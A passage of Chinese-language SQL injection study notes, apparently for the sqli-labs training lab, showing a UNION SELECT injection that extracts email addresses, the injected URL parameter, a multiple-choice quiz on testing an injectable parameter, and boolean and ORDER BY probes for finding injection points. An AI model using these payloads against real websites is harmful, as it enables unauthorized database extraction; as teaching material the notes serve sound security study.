 ```bash
mysql> select * from emails;
+----+------------------------+
| id | email_id               |
+----+------------------------+
|  1 | Dumb@dhakkan.com       |
|  2 | Angel@iloveu.com       |
|  3 | Dummy@dhakkan.local    |
|  4 | secure@dhakkan.local   |
|  5 | stupid@dhakkan.local   |
|  6 | superman@dhakkan.local |
|  7 | batman@dhakkan.local   |
|  8 | admin@dhakkan.com      |
+----+------------------------+
8 rows in set (0.00 sec)

mysql> SELECT * FROM users WHERE id=-1 LIMIT 0,1;			#显示的结果为空、因为没有id=-1的字段
Empty set (0.00 sec)


mysql> SELECT * FROM users WHERE id=-1 union  select 1,email_id,3 from emails LIMIT 0,1;
+----+------------------+----------+
| id | username         | password |
+----+------------------+----------+
|  1 | Dumb@dhakkan.com | 3        |
+----+------------------+----------+
1 row in set (0.00 sec)
```

- 在网页中执行

%20在网页的URL编码中为空格，在id=-2添加代码：union  select 1,email_id,3 from emails<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623816318576-7d3b351f-af0c-4165-8821-5e1d3c92e6ae.png#clientId=u599e9bf5-3187-4&from=paste&height=187&id=ud3b0ace5&originHeight=298&originWidth=1181&originalType=binary&ratio=2&rotation=0&showTitle=false&size=33133&status=done&style=none&taskId=uec240c1b-35f7-4726-999f-b8618f498e0&title=&width=742.5)<br />**总结：**可控变量，带入数据库查询，变量未存在过滤或过滤不严谨。

测试题:参数x有注入，以下那个注入测试正确?
```bash
a. www.xiaodi8.com/news.php?y=1 and 1=1&x=2
b. www.xiaodi8.com/news.php?y=1&x=2 and 1=1
c. www .xiaodi8.com/news.php?y=1 and 1=1&x=2 and 1=1
d. www .xiaodi8.com/news.php?xx=1 and 1=1&xxx=2 and 1=1
```

- 判断是否存在注入点
```bash
1、逻辑值
    and 1 = 1		页面正常
    and 1 = 2		页面异常
    则可能存在注入点

2、order by
		通过order by 判断注入的字段数
    
```
